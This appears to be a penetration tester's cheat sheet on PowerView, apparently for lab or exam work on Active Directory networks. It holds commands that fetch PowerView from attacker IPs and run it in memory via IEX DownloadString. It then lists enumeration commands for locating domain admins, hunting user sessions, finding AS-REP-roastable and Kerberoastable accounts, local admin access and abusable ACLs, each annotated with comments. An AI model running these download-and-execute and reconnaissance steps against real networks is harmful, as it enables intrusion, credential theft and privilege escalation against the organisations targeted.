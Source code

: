 ## PowerView

```jsx
certutil -urlcache -split -f http://192.168.45.226/PowerView.ps1
iwr -uri http://10.10.170.141:8080/PowerView.ps1 -UseBasicParsing -OutFile C:\Users\celia.almeda\Documents\PowerView.ps1
Import-Module .\PowerView.ps1

IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.171/PowerView.ps1')
```

[PowerView/SharpView | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

```jsx
Get-DomainController
Get-NetComputer | select samaccountname, operatingsystem
Get-DomainUser | select cn, samaccountname, memberof
Get-DomainGroupMember -Identity "Domain Admin" -Recurse
Invoke-UserHunter -CheckAccess
Get-NetLoggedon -ComputerName <servername>
Get-NetSession -ComputerName <servername>
Get-DomainUser -PreauthNotRequired
Get-DomainUser -SPN | select name

Find-DomainShare -CheckShareAccess
Find-LocalAdminAccess
Invoke-UserHunter -GroupName "RDPUsers"
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount

Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
Find-InterestingDomainAcl -ResolveGUIDs
Get-GPO -Guid 31B2F340-016D-11D2-945F-00C04FB984F9

```

```jsx
# Get Domain Controller
# Get Computers + OS
# Get Users + groups
# Check Domain Admins
# Check access to PC with Domain Admin session on
# Check Logged on sessions (Need admin - if successful we are local admin)
# Check Logged on sessions (No need for admin)
# AS-REP Roasting
# Kerberoasting (all services are kerberoasable)

# Check access to SMB shares
# Find local admin rights
# 
# 
 
# Find interesting ACLs
# Find intresting ACEs 
# Resolve GUID if CN not resolved
```
